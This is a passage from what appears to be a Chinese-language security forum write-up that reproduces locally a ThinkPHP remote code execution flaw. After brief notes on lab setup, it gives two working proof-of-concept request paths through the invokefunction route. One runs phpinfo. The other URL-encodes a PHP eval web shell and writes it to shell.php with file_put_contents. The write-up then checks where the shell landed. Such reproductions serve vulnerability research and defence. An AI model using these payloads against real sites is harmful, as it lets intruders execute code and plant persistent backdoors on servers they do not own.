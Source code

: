 ![image-20210516104047481](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-1b430e9f800c53e41e61888d742db093c8e397e7.png)

![image-20210516103643043](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-06695f1a0e547fb8cbaac80737b2d6d79f51a22c.png)

这里也可以不用IP

如果你没有用IP的话 就要去改一下hosts文件

然后新增 保存一下

![image-20210516103759492](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-94fbe59efc9512d87a2455dfd2c2687e0ca612bd.png)

然后远程访问一下

![image-20210516103844729](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-ad59d40236bcee3b69f5367d7172e89e81cb7a71.png)

本地漏洞复现
------

### Poc1-phpinfo

```php
/index.php?s=/Index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=phpinfo&amp;vars[1][]=-1%20and%20it%27ll%20execute%20the%20phpinfo
```

![image-20210516104439807](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a34a626b2af7a6c1b2955bcf888ab4bc35410bdd.png)

### Poc2-写入一句话

```php
&lt;?php e val($_POST['a']);?&gt;
```

进行URL编码

![image-20210516104729763](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-de82aee1532a79cf4ca36aadea6994eecea503ac.png)

最后的payload

```php
/index.php?s=/index/\think\app/invokefunction&amp;function=call_user_func_array&amp;vars[0]=file_put_contents&amp;vars[1][]=shell.php&amp;vars[1][]=%3c%3f%70%68%70%20%65%76%61%6c%28%24%5f%50%4f%53%54%5b%27%61%27%5d%29%3b%3f%3e
```

执行一下

![image-20210516104921607](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4ab9b51accf51cf32546e9d938a1f375eab7b908.png)

这样子就是执行成功的

去底层看一下 这个`shell.php`是被写到哪个目录下了

![image-20210516105006426](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-a14ce23984df48e49d948430f11da3b4e4075a01.png)
